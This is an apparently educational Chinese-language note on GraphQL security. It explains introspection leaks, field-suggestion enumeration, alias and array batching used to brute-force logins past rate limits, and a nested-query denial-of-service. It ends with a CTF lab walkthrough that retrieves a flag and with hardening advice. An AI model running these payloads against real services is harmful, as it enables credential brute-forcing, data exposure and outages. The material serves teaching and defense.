


# 🕸️ 现代 API 安全：GraphQL 基础概念扫盲、内省泄露 (Introspection) 与批量查询破防全流程

> **学习指南**：如果你之前只接触过传统的 RESTful API（比如请求 `/api/user/1`），初次接触 GraphQL 可能会觉得它的花括号语法和单端点模式十分奇怪。
> 本篇笔记特别针对初学者，**先从 0 到 1 用最通俗的生活比喻讲解 GraphQL 的诞生背景与底层语法**，然后再层层递进，剖析黑客如何利用 GraphQL 特有的“内省机制”与“批量查询”突破防御，拿到核心数据！

---


> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。

## 一、小白零基础扫盲：什么是 GraphQL？

### 1. 通俗比喻：传统 RESTful 像“套餐固定搭配”，GraphQL 像“麻辣烫自选称重”

* **传统的 RESTful API（去快餐店买固定套餐）**：
  * 如果前端想展示一个用户的“个人主页”（包含用户名、头像、最新 3 条动态）：
  * 前端必须发三个请求：
    1. 请求 `/api/users/1` 获取用户名；
    2. 请求 `/api/users/1/avatar` 获取头像；
    3. 请求 `/api/users/1/posts` 获取动态。
  * **缺点**：网络往返请求多（Over-fetching），或者接口返回了 50 个冗余字段（比如用户的生日、身份证号、创建时间），前端根本用不上。
* **现代的 GraphQL（麻辣烫自选，想要什么夹什么）**：
  * 由 Facebook（Meta）开发并开源的一种 **API 查询语言**。
  * **全站只有一个统一的接口地址**（通常就是 `POST /graphql`）。
  * 客户端发送一段 JSON 风格的“愿望清单”，声明：“**我只要这个用户的 name、avatar 和最新 3 条 post 的 title**”。
  * 服务端就**分毫不差地只返回这几样数据**！不多也不少！



---

### 2. GraphQL 核心概念与关键名词速查

初学者在阅读 GraphQL 相关安全文章时，必须掌握以下 4 个核心词汇：

| 核心名词 | 通俗含义 | 对应传统开发的概念 |
| :--- | :--- | :--- |
| **`Schema`（模式架构）** | 整个后端的“数字字典”与数据蓝图，严格规定了系统里有哪些对象（如 `User`、`Order`）、每个对象有哪些字段，以及支持什么操作 | 类似于数据库的表结构定义（DDL） |
| **`Query`（查询）** | 客户端向服务器“读”数据的操作 | 类似于 HTTP 中的 `GET` 操作 |
| **`Mutation`（变更）** | 客户端向服务器“写”数据的操作（如新增用户、修改密码、删除订单） | 类似于 HTTP 中的 `POST / PUT / DELETE` |
| **`Resolver`（解析器）** | 服务端底层真正执行数据查询的函数代码。当用户查询 `user.name` 时，Resolver 负责去 MySQL 或 Redis 查出名字并返回 | 类似于 MVC 架构中的 Controller 业务逻辑方法 |

#### 基础查询语法示例：
```graphql
# 这是一个合法的 GraphQL 查询请求
query {
  user(id: 1) {
    username
    email
    role
  }
}
```
* **服务端响应**：
```json
{
  "data": {
    "user": {
      "username": "admin",
      "email": "admin@ctf.local",
      "role": "administrator"
    }
  }
}
```

---

## 二、GraphQL 核心攻击面一：内省查询（Introspection Query）地图全泄露

### 1. 什么是内省机制？为什么会成为漏洞？
* **开发初衷**：GraphQL 的设计理念强调“开发者体验”。它内置了强大的 **自省/内省机制（Introspection）**——允许客户端通过特殊的内置字段 `__schema`，向服务端发问：“**请告诉我你这里所有的表名、字段名、支持的方法和隐藏参数是什么？**”
* **安全灾难**：在生产环境中，如果开发者**忘记关闭内省功能**，攻击者仅需发送一个标准的内省请求，**服务器就会把整套 API 的完整结构图（包括隐藏的 `isAdmin` 字段、内网测试接口、未公开的充值 Mutation）毫无保留地全盘托出！**

---

### 2. 标准通用内省 Payload 逐行解析

无论目标后端是用 Node.js、Python、Go 还是 Java 写的，所有符合规范的 GraphQL 引擎都支持这一条通用查询：

```graphql
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    types {
      name
      kind
      description
      fields {
        name
        type {
          name
          kind
          ofType {
            name
            kind
          }
        }
        args {
          name
          type {
            name
            kind
          }
        }
      }
    }
  }
}
```

#### 逐行关键字作用拆解：
* `__schema`：GraphQL 预置的最高级别系统元数据入口。
* `queryType` & `mutationType`：获取系统中用来读取和修改数据的根对象名称（通常为 `Query` 和 `Mutation`）。
* `types`：遍历系统中定义的**所有对象类型**。
* `fields`：提取该类型下的**所有字段名**（如账号、密码、Token、手机号）。
* `args`：提取每个接口接收的**入参名字**（这能直接告诉攻击者参数叫 `password` 还是 `pwd`，参数类型是字符串还是数字！）。

> [!TIP]
> **可视化利用工具**：
> 将内省查询返回的庞大 JSON 复制到开源工具 **GraphQL Voyager** 或 Burp Suite 插件 **InQL** 中，即可一键生成整套 API 的交互式架构思维导图！

---

### 3. 内省被禁用时的盲测技巧：字段建议（Field Suggestion）泄露

若后端禁用了 `__schema`，许多引擎（如 Apollo GraphQL）默认开启了“友好拼写纠错”功能：
* 当攻击者故意查询一个不存在的字段：`{ user { passwrd } }`
* 引擎会贴心返回报错：`Cannot query field "passwrd" on type "User". Did you mean "password"?`
* 攻击者可利用这一“纠错机制”编写脚本对敏感词典进行暴力枚举，逐个测出所有隐藏字段！

---

## 三、GraphQL 核心攻击面二：批量查询（Batching Attack）绕过频控

在传统 REST API 中，如果你要爆破一个密码，发 1000 次密码尝试需要发送 1000 次 HTTP 请求，很容易被 WAF 或服务端的 IP 频率限制（Rate Limiting，如每分钟最多请求 10 次）直接封杀。

而在 GraphQL 中，攻击者可以利用其原生批处理能力，**在一个 HTTP 请求中打包上千次登录尝试**！



### 1. 技巧 A：GraphQL 别名（Aliases）机制爆破

GraphQL 允许给同名查询起不同的“别名”：

```graphql
mutation {
  try1: login(username: "admin", password: "123456") { token }
  try2: login(username: "admin", password: "password") { token }
  try3: login(username: "admin", password: "admin888") { token }
  try4: login(username: "admin", password: "secret_password") { token }
}
```
* **WAF 视角**：这是一个普通的单次 POST 请求，不触发任何单 IP 阈值告警。
* **服务端视角**：按顺序调用 4 次 `login` 解析器，把所有结果封装在同一个响应包里返回。攻击者单次发包即可完成数百次口令撞库！

---

### 2. 技巧 B：HTTP 数组批处理（Array Batching）
部分服务器（如 Apollo Server）支持在 HTTP Body 中直接传入 JSON 数组：
```json
[
  {"query": "mutation { login(username:\"admin\", password:\"111\") { token } }"},
  {"query": "mutation { login(username:\"admin\", password:\"222\") { token } }"},
  {"query": "mutation { login(username:\"admin\", password:\"333\") { token } }"}
]
```

---

## 四、GraphQL 核心攻击面三：深度嵌套循环 DoS（Depth Attack）

由于 GraphQL 允许对象之间双向关联（比如“作者”有“文章”，而“文章”又属于“作者”）：
```graphql
query DoS {
  author(id: 1) {
    posts {
      author {
        posts {
          author {
            posts {
              author {
                # 无休止向下嵌套...
              }
            }
          }
        }
      }
    }
  }
}
```
若后端没有配置**最大查询深度（Query Depth Limit）**，服务端解析器在底层会发起数万次递归数据库 SQL 查询，瞬间打满 CPU 与内存，导致服务瘫痪（DoS 拒绝服务）！

---

## 五、CTF 实战靶场案例复现（DVGA 靶场经典赛题）

### 靶场情境：受保护的在线书店 GraphQL 接口

* 目标地址：`http://challenge.ctf:5013/graphql`
* 题目要求：获取系统中的隐藏 Flag。当前页面仅展示普通书籍列表。

### 1. 第一步：触发内省查询，逆向后端 Schema
使用 Burp Suite 发送带有 `__schema` 的 POST 请求：

```http
POST /graphql HTTP/1.1
Host: challenge.ctf:5013
Content-Type: application/json

{"query":"{ __schema { types { name fields { name } } } }"}
```

#### 分析返回的 JSON 数据：
在返回的大量类型中，发现了一个未公开的对象 `SystemConfig`，以及一个特别的 Mutation：
```json
{
  "name": "SystemConfig",
  "fields": [
    {"name": "id"},
    {"name": "maintenanceMode"},
    {"name": "flagValue"}   <--- 致命发现: 包含敏感 Flag 字段!
  ]
}
```
同时发现根查询 `Query` 中包含一个 `getSystemSettings` 字段，且不需要管理员权限！

---

### 2. 第二步：构造精准定向 Payload 获取 Flag

既然已知存在 `getSystemSettings` 查询和 `flagValue` 字段，直接在前端组装查询语句：

```http
POST /graphql HTTP/1.1
Host: challenge.ctf:5013
Content-Type: application/json

{
  "query": "query { getSystemSettings { id flagValue } }"
}
```

### 3. 服务端响应与夺旗

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "data": {
    "getSystemSettings": {
      "id": 1,
      "flagValue": "flag{gr4phql_1ntr0sp3ct10n_sch3m4_l34k_pwn}"
    }
  }
}
```
原本在前端 UI 上根本没有任何链接或按钮的敏感系统配置，通过 GraphQL 的内省机制被彻底剥去伪装，成功拿到最终 Flag！

---

## 六、安全加固规范与最佳实践

1. **生产环境坚决关闭内省（Introspection）**：
   在 Apollo Server、GraphQL-Java 等框架初始化时，通过配置显式禁用：
   ```javascript
   // ✅ Node.js Apollo Server 安全配置
   const server = new ApolloServer({
     typeDefs,
     resolvers,
     introspection: process.env.NODE_ENV !== 'production', // 仅开发环境开启
   });
   ```
2. **强制限制查询深度（Query Depth Limiting）**：
   使用中间件（如 `graphql-depth-limit`），限制单次查询嵌套层级不得超过 5~7 层，直接粉碎循环递归 DoS。
3. **针对别名与批处理实施操作级限流（Operation-based Rate Limiting）**：
   限流器不能仅统计 HTTP 请求数量，必须统计该请求内部包含的**有效操作数（Operation Count）**，一旦单次请求包含超过 5 个操作即刻拦截。
4. **严格对象级权限控制（BOLA / IDOR 防护）**：
   在每个字段的 Resolver 函数内部，必须校验当前登录用户是否有权访问该目标对象的具体实例，严禁仅依靠“不公开字段名”做隐蔽式安全（Security through Obscurity）。

---

## 🔗 相关双向链接
- 上级模块：[[11-现代新型API与认证安全]]
- 下一章节：[[02-WebSocket协议握手机制与跨站劫持(CSWSH)攻防]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
